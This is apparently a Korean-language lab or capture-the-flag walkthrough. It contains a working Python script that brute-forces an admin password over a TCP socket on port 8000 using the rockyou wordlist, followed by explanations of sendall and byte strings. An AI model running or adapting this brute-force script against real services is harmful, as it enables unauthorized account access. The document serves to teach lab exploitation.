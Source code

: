```python
import socket
import time

# 대상 서버 정보와 패스워드 리스트 경로
pyrat_IP = "10.10.247.143"
pyrat_PORT = 8000
wordlist = "/usr/share/wordlists/rockyou.txt"

def send_socket(ip: str, port: int, password: str) -> bool:
    try:
        # TCP 소켓 생성 및 서버 연결
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5)  # 연결 타임아웃 5초
        s.connect((ip, port))
        # b -> 바이트로 변환 -> 소켓 통신 시 무조건 바이트로 전송해야 함
        s.sendall(b'admin\n')  # 사용자명(admin) 전송

        resp = s.recv(1024).decode(errors="ignore")  # 서버 응답 받기

        # 서버가 요청하는 패스워드 입력 프롬프트 확인
        if "Password:" in resp:
            s.sendall(password.encode() + b"\n")  # 패스워드 전송 -> decode 바이트로 변환  -> 소켓 통신 시 무조건 바이트로 전송해야 함
            resp = s.recv(1024).decode(errors="ignore")  # 응답 받기

            # 응답 데이터 내부에 success 또는 admin 문자열이 있는지 확인 -> 성공 실패 판별
            if "success" in resp.lower() or "admin" in resp.lower():
                print(f"[+] Found! admin:{password} -> {resp.strip()}")  # 성공 시 출력
                return True
            else:
                # print 내부 f -> 문자열 안에 {} 로 변수 바로 표현 가능
                print(f"[-] Failed: {password}")  # 실패 시 출력
    except Exception as e:
        # 연결 오류 발생 시 출력
        print(f"[!] Connection error for password '{password}': {e}")
    finally:
        # 소켓 자원 정리
        s.close()
    return False  # 실패 시 False 반환

def brut_pass():
    # with 파일을 열고 닫는 컨텍스트 매니저 문법
    # 패스워드 리스트 파일을 한 줄씩 읽어서 시도
    with open(wordlist, "r", encoding="latin-1", errors="ignore") as file:
        for line in file:
            password = line.strip()  # 개행 제거
            if send_socket(pyrat_IP, pyrat_PORT, password):
                break  # 성공하면 반복 중단
            time.sleep(0.1)  # 서버 과부하 방지

if __name__ == "__main__":
    # 직접 실행 시 brut_pass 함수 호출
    brut_pass()
```

`sendall`은 소켓을 통해 데이터를 한 번에 모두 전송하는 함수입니다.  
여기서는 서버에 사용자명(`admin\n`)이나 패스워드(`password.encode() + b"\n"`)를 보낼 때 사용합니다.

- `s.sendall(b'admin\n')` → 서버에 "admin"이라는 문자열을 전송
- `s.sendall(password.encode() + b"\n")` → 서버에 패스워드 문자열을 전송

`sendall`은 데이터가 다 전송될 때까지 반복해서 보내주기 때문에, 네트워크 환경이 불안정해도 안전하게 쓸 수 있습니다.  
실제로 서버에 명령이나 인증 정보를 보낼 때 가장 많이 쓰는 방식입니다.

`b`는 파이썬에서 "바이트(byte) 문자열"을 의미합니다.

예를 들어, `b'admin\n'`은 일반 문자열이 아니라 컴퓨터가 네트워크로 바로 보낼 수 있는 바이트 데이터입니다.  
소켓 통신에서는 반드시 바이트 타입으로 데이터를 보내야 하므로,  
`'admin\n'` 앞에 `b`를 붙여서 바이트로 만들어 전송하는 겁니다.

정리하면:

- `b'admin\n'` → 바이트 타입, 소켓에 바로 전송 가능
- `'admin\n'` → 일반 문자열, 소켓에 직접 전송 불가

패스워드도 마찬가지로,  
`password.encode()`를 쓰면 문자열을 바이트로 변환해서 보낼 수 있습니다.
